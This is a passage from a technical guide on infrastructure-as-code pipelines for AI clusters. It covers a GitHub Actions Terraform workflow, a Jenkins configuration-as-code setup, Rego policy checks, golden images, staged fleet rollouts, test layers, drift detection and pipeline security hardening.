Read the file from the top, the way a run unfolds. The `on:` block says when the workflow starts, which is any pull request that touches Terraform or Ansible files, and any push to `main`. The `permissions` block limits what the job's token may do. The `static` job runs the cheap checks first. The `plan` job waits for `static` through `needs:`, and it saves its plan as an artefact. The `apply-staging` job waits for `plan`, and it runs only on `main`. Because it names `environment: staging`, GitHub holds it until the environment's rules pass, which can include a reviewer's approval.

```yaml
name: infra
on:
  pull_request:
    paths: ["terraform/**", "ansible/**", ".github/workflows/infra.yml"]
  push:
    branches: [main]
permissions: { contents: read, pull-requests: write, id-token: write }
concurrency:                                   # one pipeline per environment at a time
  group: infra-${{ github.ref }}
  cancel-in-progress: false                    # never cancel an in-flight apply

jobs:
  static:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v4
    - uses: hashicorp/setup-terraform@v3
    - run: terraform fmt -check -recursive terraform/
    - run: |
        cd terraform/envs/staging
        terraform init -backend=false -input=false && terraform validate
    - run: pip install ansible-lint yamllint && yamllint . && ansible-lint ansible/
    - uses: gitleaks/gitleaks-action@v2

  plan:
    needs: static
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v4
    - uses: hashicorp/setup-terraform@v3
    # cloud auth via OIDC (read-only role) goes here
    - run: |
        cd terraform/envs/staging
        terraform init -input=false
        terraform plan -input=false -lock-timeout=5m -out=tfplan
        terraform show -json tfplan > plan.json
    - name: Policy check
      run: conftest test terraform/envs/staging/plan.json --policy policies/
    - uses: actions/upload-artifact@v4
      with: { name: tfplan, path: terraform/envs/staging/tfplan }

  apply-staging:
    if: github.ref == 'refs/heads/main'
    needs: plan
    runs-on: ubuntu-latest
    environment: staging                       # protected environment: reviewers, wait timer, branch rule
    steps:
    - uses: actions/checkout@v4
    - uses: hashicorp/setup-terraform@v3
    - uses: actions/download-artifact@v4
      with: { name: tfplan, path: terraform/envs/staging }
    - run: cd terraform/envs/staging && terraform init -input=false && terraform apply -input=false tfplan
```

Treat the action versions and flags above as examples, and pin each one to a version you have reviewed. Production usually adds a second protected environment, `prod`. That environment brings required reviewers, a saved plan generated against the prod state, a change-window check, and a post-apply verification job. A change window is an agreed time when risky changes are allowed, often a quiet period when the people who can fix a problem are awake. In a monorepo, use path filters or a changed-directory matrix, so that a change to `envs/staging` does not plan production. A matrix runs the same job once for each directory in a list, which keeps the jobs separate.

Other systems follow the same pattern. GitLab CI uses `stages`, `rules`, an `environment:` with `when: manual`, protected variables, and `resource_group` for locking. Jenkins uses a declarative pipeline with `input` approval steps and credential binding. Buildkite or Argo Workflows suit heavy jobs that run on your own hardware. The names change from tool to tool, but each tool gives you the same kinds of control: an ordered set of stages, a rule for when a stage runs, a human approval gate, and a lock.

### Self-hosted CI/CD stack and Jenkins Configuration as Code (*Ansible: Up and Running* Chapter 22)

*Ansible: Up and Running*, Chapter 22 (*CI/CD and Ansible*), shows how Bas Meijer, Lorin Hochstein, and René Moser provision a complete self-hosted CI/CD platform with Ansible. The platform uses four servers. It is a common choice in air-gapped or regulated AI data centers. Air-gapped means the network has no route to the public internet, so the packages, images and code all have to come from servers inside the building. In that setting, a public CI service is not an option, and the team must run every part of the pipeline itself. Each of the four services below has one job, and the playbooks that build them follow the same pattern as any other Ansible role.

1. **Four core services: `nexus`, `git`, `sonar` and `jenkins`.** Each one has its own role and its own Ansible playbook.
   - **Artifact repository (`Sonatype Nexus 3` or `JFrog Artifactory`):** Ansible deploys it with `geerlingguy.java` and `ansible-thoteam.nexus3-oss`. Setting `nexus_config_pypi: true` and `nexus_config_docker: true` lets CI runners and cluster nodes pull Python wheels and container images through a local caching proxy.
   - **Self-hosted Git server (`Gitea` + `MySQL`):** Ansible deploys it with `community.mysql`, `do1jlr.mysql`, and `do1jlr.gitea`. Gitea listens on port `3000` (`gitea_http_port: '3000'`) and connects to the database at `127.0.0.1:3306` (`gitea_db_host: '127.0.0.1:3306'`).
   - **Code quality and technical debt scanner (`SonarQube` + `PostgreSQL`):** Ansible deploys it with `community.postgresql`, `robertdebock.postgres`, and `lrk.sonarqube`. It also installs `java-11-openjdk-devel` and the `ansible-lint` plugin. SonarQube then tracks security hotspots and code smells across the Python and Ansible repositories.
   - **CI server (`Jenkins` + `Docker`):** Ansible deploys it with `geerlingguy.jenkins` and `geerlingguy.docker` (`docker_users: [jenkins, vagrant]`). It installs the plugins `ansible`, `ansible-tower`, `ansicolor`, `configuration-as-code`, `job-dsl`, `pipeline-stage-view`, `sonar`, and `ws-cleanup`. You can manage Jenkins through Ansible's `jenkins_job`, `jenkins_job_info`, `jenkins_plugin`, and `jenkins_script` modules, or through `jenkins-cli.jar`, which you download from `http://127.0.0.1:8080/jnlpJars/jenkins-cli.jar`.
2. **Jenkins Configuration as Code (`JCasC`) and `Job DSL` seed jobs.** Clicking through the Jenkins web UI is tempting, but copied jobs drift apart quickly. Ansible instead templates `/var/lib/jenkins/casc_configs/jenkins.yaml` with `mode: '0440'`. It sets `JENKINS_JAVA_OPTIONS="-Djava.awt.headless=true -Djenkins.install.runSetupWizard=false -Dcasc.jenkins.config=/var/lib/jenkins/casc_configs"` in `/etc/sysconfig/jenkins`. That configures on-demand tool installers for `ansible`, `git`, `jdk`, `Maven3`, and `SonarScanner`, and points `jobs:` at `/home/jenkins/jobs.groovy`. The `jobs.groovy.j2` template loops over `git_repositories` (`ansible_role_ssh`, `ansible_role_ansible`, `ansible_role_web`). It generates a `pipelineJob` for each repository that reads that repository's `Jenkinsfile`. You then activate the change with `java -jar jenkins-cli.jar -s http://127.0.0.1:8080/ -auth admin:... reload-jcasc-configuration`.
3. **A declarative `Jenkinsfile` for Molecule role testing, and a hand-off to AWX or Automation Controller.** Each role repository's `Jenkinsfile` sets `options { disableConcurrentBuilds(); ansiColor('vga') }`. It then runs six sequential stages: `Build Environment`, `Syntax` (`molecule syntax`), `Linting` (`molecule lint`), `Playbook` (`molecule converge`), `Verification` (`molecule verify`), and `Idempotency` (`molecule idempotence`). For deployment, Jenkins can call `ansiblePlaybook` directly, with `credentialsId: 'Machines'`, `vaultCredentialsId: 'ANSIBLE_VAULT_PASSWORD'`, `inventory: 'inventory/hosts'`, and `limit: 'webservers'`. In enterprise environments, the better option is the **Ansible Tower plugin (`ansibleTower`)**. It triggers a pre-authorized **Job Template** (`jobTemplate: '1234'`, `towerServer: 'tower'`, `limit: 'web'`) on **Ansible Automation Controller (AWX/AAP)**. The SSH and Vault credentials then stay inside the controller, under full RBAC and audit logging, instead of living on Jenkins agents.

The six stages run in sequence, so a failure at one stage stops the stages after it. Picture an assembly line where each station checks the part before passing it on. A part that fails the syntax check never reaches the Molecule converge step, which saves the time and the test machine that a converge would have used. The order also tells you where to look when something breaks. If the Syntax stage fails, the problem is in the file. If the Idempotency stage fails, the problem is that a second run changes something the first run already set.

## 7. Policy as code

A tired reviewer on a Thursday afternoon might miss that a plan creates twenty GPU instances when the author meant two. A policy engine has no bad afternoons. It reads the plan as structured data and applies the same rule every single time, and it reports the exact resource that broke the rule.


*Figure 4.2.V. Policies stop bad plans in the pipeline, before a reviewer has to catch them.*


Humans miss things, but policies do not get tired. Evaluate the **machine-readable plans or manifests** against your rules before a merge or an apply, so a bad change is stopped by the pipeline and not by a reviewer who happened to be distracted. Machine-readable means the plan is data, such as JSON, that a program can walk through field by field. A rule can then say "for each resource that is being created, check its instance type," which a human skimming a long plan would never do consistently.

Think of a policy as a bouncer at the door of the cloud. The bouncer does not care who the author is or how senior they are. The bouncer checks the guest list, and it checks the same list every time. Policies work best when they are written as rules about outcomes, such as "no public bucket," rather than as rules about people.

Several engines fit this role. OPA with Rego, run through Conftest, is the general-purpose choice. You can pipe a plan into it with `terraform show -json tfplan | conftest test -`, or point it at Kubernetes manifests and Helm output. **Sentinel** is the HashiCorp Enterprise option. Checkov, tfsec and trivy config bring their own rule libraries. Kyverno and Gatekeeper enforce the same kinds of policy at runtime, as admission control inside Kubernetes. Cloud Custodian handles cloud resource policies.

The Rego example below blocks two things. It denies a plan that creates more than 16 restricted GPU instances, unless the plan carries the `Override-Capacity` tag after approval. It also denies any deletion of a resource tagged `Mission-Critical`. Rego is the language that OPA uses to write these rules. Read it as a set of questions. The first rule collects every restricted GPU instance that the plan creates, and it denies the plan when the count passes the limit and no override tag is present. The second rule walks every resource change, and it denies any delete action on a resource that carries the critical tag. Each `deny` line produces a message, so the author sees the exact reason in the pull request.

```rego
package terraform.cost
import rego.v1

restricted_types := {"p5.48xlarge", "p4d.24xlarge"}            # high-cost GPU instances (example list)

created contains rc if {
    some rc in input.resource_changes
    rc.type == "aws_instance"
    "create" in rc.change.actions
    rc.change.after.instance_type in restricted_types
}

deny contains msg if {
    count(created) > 16
    not input.planned_values.root_module.resources[_].values.tags["Override-Capacity"]
    msg := sprintf("plan creates %d restricted GPU instances; add the Override-Capacity tag after approval", [count(created)])
}

deny contains msg if {
    some rc in input.resource_changes
    "delete" in rc.change.actions
    rc.change.before.tags["Mission-Critical"] == "true"
    msg := sprintf("%s is tagged Mission-Critical and cannot be deleted by pipeline", [rc.address])
}
```

Rego syntax differs between OPA versions. The example uses the 1.x style, so check your version before you copy it.

Useful policy domains for AI infrastructure include cost, network, identity, data, tagging, region and residency, and protected resources. For cost, use instance family allow-lists, a maximum GPU count per plan, and budget tags. An allow-list names what is permitted, and everything else is refused by default. For the network, forbid `0.0.0.0/0` on management ports and public IPs on GPU nodes, and require flow logs and the right MTU or jumbo settings on training networks. The `0.0.0.0/0` range means "the whole internet," so a rule that forbids it on a management port keeps the login screen off the public web. For IAM, forbid wildcard admin rights and long-lived keys, and require MFA and boundary policies. A boundary policy is a ceiling on what a role can ever grant, even if someone later attaches a broader permission to it.

Data policies cover encryption at rest, a public-access block on buckets, and retention on checkpoint buckets. Retention means how long the bucket keeps old checkpoints before deleting them. Tagging policies require owner, cost-centre and environment tags. Tags are what let finance and on-call teams answer "whose is this?" at two in the morning. Protected-resource policies deny the deletion of state buckets, production databases and shared storage.

Treat policy changes like code. Review them, test them with allow and deny fixtures, version them, and log every override through an explicit break-glass process. A fixture is a small sample plan that the policy must allow, and another that it must deny. Testing both sides catches a rule that is too loose and a rule that is too tight. A break-glass process is the documented emergency path for overriding a rule, and every use of it should leave a record.

## 8. Golden images as pipeline artefacts

Imagine a GPU node that boots, then gets configured by hand over the next hour. Two nodes that look alike can end up different in small ways, and nobody remembers which. A better approach is to boot every node from **versioned, tested images**. A golden image pipeline builds those images with HashiCorp **Packer**, Image Builder, or `virt-customize` and OS-specific tooling.

The pipeline runs in a fixed order. It starts with the base OS and then applies Ansible roles for drivers, CUDA, the container runtime, monitoring agents and kernel parameters. Next it hardens the image and scans it for vulnerabilities. It then runs a boot and driver smoke test on a real GPU instance, using `nvidia-smi` and a short NCCL test. Finally, it publishes an immutable image ID with its metadata: the git SHA, driver version, CUDA version, kernel, date, and SBOM.

The reason for the order is that each step needs the one before it. Ansible cannot install a driver on an OS that does not exist yet, and a scan cannot judge packages that were never installed. The smoke test comes after the scan, so a vulnerable image is rejected before anyone spends GPU hours testing it.

Think of the result as a sealed meal kit rather than a kitchen. Every node that boots from the same image gets the same ingredients in the same amounts. Two nodes built from one image cannot differ in a small hand-edited detail, because the detail was never applied to either of them.

Terraform or your provisioning system refers to the image by ID. Rollouts replace nodes rather than changing them in place. Replacing a node means you drain it, delete it, and boot a fresh one from the new image, instead of editing the old one live. Rebuild the image when the base image updates, when a security advisory lands, or when a role changes. Keep a set of previous images so you can roll back. The number you keep sets how far back a rollback can reach. If you keep only the newest image, a bad build leaves you with no known-good image to return to.



*Figure 4.2.2. Golden images as pipeline artefacts, as a diagram.*

Packer builds can be slow and expensive on GPU instances. A GPU instance bills by the hour whether or not it does useful work, so an idle build machine quietly costs money. Run the smoke tests on the smallest GPU shape that still exercises the whole stack. The smallest shape that still loads the same driver and the same interconnect is enough to prove the image works. Put the broader qualification in a separate scheduled job, which can run overnight on a larger fleet without blocking every merge.

## 9. Rolling out to physical and large fleets

Applying a change to every node at once is how a team learns, the hard way, that the change was wrong. A staged rollout turns that lesson into a small, visible event. Imagine a thousand-node fleet with a bad sysctl value. A canary catches it on one or two machines, and the rest of the fleet never sees it.

Applying a change "to everything" is the quickest way to learn that it was wrong on every node at once. A staged rollout limits that damage. The flow below applies to Slurm clusters, bare-metal nodes and Kubernetes node pools alike. Read it as a set of gates. A node or batch has to pass each gate before the rollout moves on, and any failure sends the line to a full stop. The reason for a gate is simple. A failure that shows up on one machine is a small problem, and the same failure on the whole rack is an outage.

The canary is named after the birds that miners carried into coal mines, because a canary reacts before the people do. In a rollout, the canary is the first machine that takes the change. If a sysctl value breaks the fabric, the canary shows it, and the rest of the fleet never receives the bad value.



*Figure 4.2.3. Rolling out to physical and large fleets, as a diagram.*

Start with a canary of one or two nodes, and drain them from the scheduler first. If validation fails, stop the line and restore the canary. If it passes, an optional manual gate can open the way to the first batch, for example 5% of nodes. Once that batch has soaked and stayed healthy, roll out in batches of N.

Walk through one canary from start to finish. The scheduler stops sending new jobs to the node. Any job still running there is moved or waits. The change is applied. The validation play runs its checks. If every check passes, the node goes back into service. If one check fails, the node stays out of service and the rollout stops, so a human can look at it while the rest of the fleet keeps working. Each of those steps is a place where the pipeline can refuse to continue.

Drain nodes from the scheduler before you make any disruptive change. Use `scontrol update NodeName=... State=DRAIN Reason="..."` for Slurm, or `kubectl drain` for Kubernetes. Limit the concurrency of each apply. Ansible gives you `serial:` and `max_fail_percentage`, and node-pool rolling updates use `maxUnavailable`. After each batch, run a **validation playbook**. It checks that the driver is loaded, the GPUs are visible, ECC is clean, and fabric links are up at the expected speed. It also runs a short NCCL all-reduce that must stay within tolerance, and it checks the Slurm `sinfo` state. Return a node to service only when it passes, and let the pipeline stop on its own once failures cross a threshold.

Schedule rollouts inside a maintenance window. A rollout should never drain more than the SLO allows, and every step should be recorded for the post-incident timeline. A timeline is the ordered record of what happened and when, and it is the first thing a postmortem reads. Firmware and BIOS changes need extra care. Firmware is the low-level software on the hardware itself, and it is hard to undo once it is flashed. Stage firmware changes by hardware generation, keep the previous version available, and confirm the BMC is reachable before and after the change (Part 7). The BMC (baseboard management controller) is the small separate computer that lets you reach a server when its main operating system is down. If the BMC is unreachable after a firmware change, you lose the one remote door you would need to repair it.

Set the failure thresholds before you start the rollout, so the pipeline stops on a rule, not a judgment call. A judgment call made in the middle of a failing rollout tends to favor pressing on, because everyone wants the change to succeed. A written threshold removes that pressure.

## 10. Testing infrastructure code

A team changes a BGP timer, and every static check passes. The change only breaks when two routers try to form a session and the timers disagree. Only a test that runs a live topology can show that. This is why infrastructure tests come in layers. Think of them as a ladder. The bottom rungs are fast and catch most typos. The top rungs cost real time and hardware, and they catch the surprises that only a running network can show.


*Figure 4.2.V. Cheap tests run on every commit, and expensive tests run only when the risk justifies them.*


Infrastructure tests come in layers, and each layer costs a different amount to run. Static checks are cheap enough to run on every commit. Full end-to-end runs on a real slice are expensive, so they run only before production or at night. The table shows where each level fits. Notice that the cost rises as you go down the table, and the coverage rises with it. A static check cannot tell you whether two routers will peer. A live topology can, but it takes time and hardware to run. Good teams keep the expensive rows for the changes that deserve them, and let the cheap rows catch the everyday typos.

| Level | What | Tools | When |
|---|---|---|---|
| Static | Syntax, style, schema, security smells | `terraform validate/fmt`, `tflint`, `ansible-lint`, `yamllint`, `kubeconform`, `checkov` | Every commit |
| Unit-ish | Render templates; evaluate modules with mock inputs; policy tests | `terraform test` (mock providers), Conftest unit tests, Jinja rendering with golden outputs | Every commit |
| Plan-level | Is the diff what we intended? Does it respect policy? | `terraform plan`, `ansible --check --diff` | Every PR |
| Integration | Apply into an ephemeral environment and assert | Terratest (Go), `terraform test` with real providers, Molecule + testinfra, kind/k3d for Kubernetes | PR (small) or nightly |
| End-to-end | Real stack on a representative slice | Staging cluster, NCCL/nccl-tests, MLPerf-style smoke jobs | Pre-prod, nightly |
| Operational | Backup restore, failover, drift, chaos | Game days, restore drills, `terraform plan` on schedule | Scheduled |

Keep the cost of each test in proportion to the risk it covers. Destroy ephemeral environments automatically, and use budgets and TTL tags to guard against leaks. A TTL (time to live) tag is a label that says when a resource should expire, so a cleanup job can remove it even if the test crashed halfway. Keep integration tests deterministic by giving every resource a unique name. A unique name means two test runs at the same time cannot collide on one bucket or one subnet. Treat a flaky infrastructure test as a bug, not as background noise. A flaky test is one that passes and fails on the same code, and people learn to ignore it, which means the real failures get ignored too. Pre-commit hooks from 4.1 run the cheapest checks on your laptop, and CI repeats them as required checks.

Match each test's cost to the risk it covers, and let the cheap rows run on every commit.

## 11. Drift detection and self-healing

A storage engineer raises the MTU on a few hosts by hand to fix a slow transfer. The fix works, and nobody writes it down. Three weeks later a rebuild restores the old value from Git, and the transfers slow down again, with no obvious cause. Drift is what happens when reality and the code quietly disagree. The checks below are how you notice it before a rebuild does.


*Figure 4.2.V. Auto-heal is safe only where reverting holds no data written since the last apply.*


Drift is the gap between your code and reality. A console edit, an autoscaler, a manual hotfix, a failed partial apply, or a hardware replacement can each open that gap. You find drift by checking on a **schedule**, and the checks come in three forms. A schedule matters because drift does not announce itself. It sits quietly until the next apply or the next rebuild, and then it surprises somebody.

- Run `terraform plan -detailed-exitcode` in a nightly job for each environment. Exit code 2 means changes are pending. Post the results to chat or a ticket. Do not auto-apply stateful resources.
- Argo CD and Flux compare the cluster with Git continuously. They can auto-revert with `selfHeal`, or they can alert you. Ansible `--check --diff` run against a fleet reveals configuration drift on hosts. AWX scheduled jobs can enforce the desired state. Check mode means Ansible reports what it would change without changing it, so you can run it on production safely.
- Decide for each resource class. **Auto-heal** suits stateless Kubernetes objects and config files. **Alert only** suits databases, buckets, networks, and anything where a revert could destroy data. Record any exceptions you accept. A revert is only safe when the thing being reverted holds no data that was written since the last apply. A config file holds no data of its own, so reverting it is a clean undo. A database holds data that users wrote, so reverting its settings can wipe that data in the process.

The MTU story from the opening of this section shows the cost of ignoring drift. The fix was correct, but it lived only on the hosts. A nightly plan or a configuration check would have flagged the mismatch the next morning, while the engineer still remembered why the change was made.

The sketch below runs the drift check every night.

```yaml
# nightly drift check (sketch)
on: { schedule: [ { cron: "0 3 * * *" } ] }
jobs:
  drift:
    runs-on: ubuntu-latest
    steps:
    - uses: actions/checkout@v4
    - run: |
        cd terraform/envs/prod
        terraform init -input=false
        set +e; terraform plan -input=false -detailed-exitcode -lock=false -out=drift.tfplan; rc=$?; set -e
        if [ "$rc" = 2 ]; then echo "DRIFT DETECTED"; terraform show -no-color drift.tfplan | head -200; exit 2; fi
```

When the plan returns exit code 2, the script prints up to 200 lines of the drift plan and exits with 2. Your scheduler sees that exit code and can flag the run. The `set +e` line matters here. Without it, the shell would stop at the first non-zero exit code, and the script would never reach the test that reads the code. The `-lock=false` flag lets the nightly job read the state without holding the lock, so it does not block a real apply that is running at the same moment. Read-only plans can run without the lock, but they still must not change anything.

Before you turn on auto-heal for a resource, confirm that reverting it cannot destroy data. A useful habit is to ask what the revert would do on its worst day. If the answer involves a deleted volume or a dropped table, the resource belongs in the alert-only class.

## 12. Operating the pipeline itself

A pipeline holds the keys to production, so a compromised pipeline means a compromised production. Treat it like any other critical service. It needs its own monitoring, its own patching, and its own access rules. The sections below cover the parts that most often go unwatched.


*Figure 4.2.V. A pipeline with production access needs the same care as any critical service.*


A pipeline is software that runs with production access, so you have to operate it like any other critical system. You should start with its runners. Runners should be ephemeral and isolated. A self-hosted runner that can reach private infrastructure is a high-value target, so run it in a restricted network zone. Rebuild it for every job using containers or VMs, keep no shared state, store no persistent credentials, and filter egress. Egress filtering means you allow only the outbound connections the job really needs, so a compromised job cannot quietly send data anywhere it likes. Give GPU runners a label, and reserve them for GPU tests. A label is a tag that tells the scheduler which runners have GPUs, so an ordinary lint job does not occupy a machine that a training test is waiting for.

Supply-chain risk comes next. A supply chain is everything your pipeline downloads from outside: actions, images, providers and tools. Pin actions and images by digest. A digest is a fixed fingerprint, so a tag that someone later moves cannot slip new code into your build. Verify the checksums or signatures of Terraform providers and tools, using `.terraform.lock.hcl`. Mirror your dependencies, and restrict who can edit workflows, for example with `CODEOWNERS` on `.github/`. Treat `pull_request_target` and untrusted inputs, such as branch names and pull request titles, as injection vectors. An injection vector is any spot where an outsider's text can end up being run as a command. Never interpolate untrusted values into shell commands.

